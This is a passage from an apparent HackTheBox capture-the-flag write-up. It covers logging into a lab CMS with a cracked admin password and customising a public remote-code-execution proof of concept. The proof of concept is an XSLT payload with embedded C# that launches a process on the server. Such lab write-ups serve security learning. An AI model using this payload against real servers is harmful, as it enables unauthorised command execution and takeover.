 It cracks to “baconandcheese”.

#### Login

The username admin doesn’t work, but the username “admin@htb.local” does.

![image-20200322151028207](https://0xdfimages.gitlab.io/img/image-20200322151028207.png)

### Exploit

Typically with a CMS I would look to upload a webshell. In this case, since I already have a potential RCE exploit, I’ll start there.

#### Customize Exploit

The exploit requires some customization to get it working, all of this goes in this section:

```

# Execute a calc for the PoC
payload = '<?xml version="1.0"?><xsl:stylesheet version="1.0" \
xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:msxsl="urn:schemas-microsoft-com:xslt" \
xmlns:csharp_user="http://csharp.mycompany.com/mynamespace">\
<msxsl:script language="C#" implements-prefix="csharp_user">public string xml() \
{ string cmd = ""; System.Diagnostics.Process proc = new System.Diagnostics.Process();\
 proc.StartInfo.FileName = "calc.exe"; proc.StartInfo.Arguments = cmd;\
 proc.StartInfo.UseShellExecute = false; proc.StartInfo.RedirectStandardOutput = true; \
 proc.Start(); string output = proc.StandardOutput.ReadToEnd(); return output; } \
 </msxsl:script><xsl:template match="/"> <xsl:value-of select="csharp_user:xml()"/>\
 </xsl:template> </xsl:stylesheet> ';

login = "XXXX";
password="XXXX";
host = "XXXX";

```

I’ll update the `login` to “admin@htb.local”, the `password` to “baconandcheese”, and the `host` to “http://10.10.10.180” (originally I just had the IP, but that leads to an error).

I’ll also need to update the `payload`. It currently launched calc. Obviously I want to change that. I’ll focus on this section (with some added whitespace):

```

{ string cmd = ""; 
 System.Diagnostics.Process proc = new System.Diagnostics.Process();
 proc.StartInfo.FileName = "calc.exe"; 
 proc.StartInfo.Arguments = cmd;
 proc.StartInfo.UseShellExecute = false; 
 proc.StartInfo.RedirectStandardOutput = true;
 proc.Start(); 
 string output = proc.StandardOutput.ReadToEnd(); 
 return output; }

```
